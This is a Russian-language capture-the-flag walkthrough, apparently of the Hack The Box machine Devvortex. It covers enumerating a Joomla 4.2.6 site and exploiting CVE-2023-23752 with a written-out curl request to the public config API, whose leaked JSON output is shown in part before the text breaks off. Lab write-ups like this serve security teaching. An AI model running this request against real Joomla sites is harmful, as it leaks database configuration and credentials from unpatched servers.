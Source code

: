**Найдено: dev.devvortex.htb**

Я добавил его в свой  **/etc/hosts**  и приступил к изучению этого сайта. Нажатие на /robots.txt раскрыло его содержимое и стало ясно: это CMS Joomla.

![[Pasted image 20240223225214.png]]

Или можем запустить gobuster или dirb для поиска скрытых каталогов. И та и другая приводить нас к каталогу /administrator

![[Pasted image 20240223230642.png]]

Ого.. подожди минутку.. `/administrator`? Давайте погрузимся.

![[Pasted image 20240223225227.png]]

Ааа.. милая у нас **Joomla .. Что мы можем сказать?** Попытки использовать общие учетные данные на странице входа в Joomla не увенчались успехом.

## Анализ уязвимости

Почему бы не запустить Joomscan [,](https://www.kali.org/tools/joomscan/)`dev.devvortex.htb` возможно, мы сможем найти что-то многообещающее.

![[Pasted image 20240223230732.png]]

## Эксплуатация

Ва ва ви ваа!! **Joomla v. 4.2.6** . Эта версия должна быть уязвима к недавнему [CVE-2023–23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) (эксфильтрация данных). Просматривая Интернет, я наткнулся на очень хороший [эксплойт PoC](https://www.exploit-db.com/exploits/51334) с **сайта эксплойта-db.com.** В интернете можете найти полно эксплотов для данной уязвимости.

Давайте загрузим и запустим его для установки Joomla.

![[Pasted image 20240223230821.png]]

Или другой пример эксплойта:

**Запрос**

```bash
curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .
```

**Ответ**

```json
{
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "dbtype": "mysqli",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "host": "localhost",
        "id": 224
      }
    },
    {
      "type": "application",
```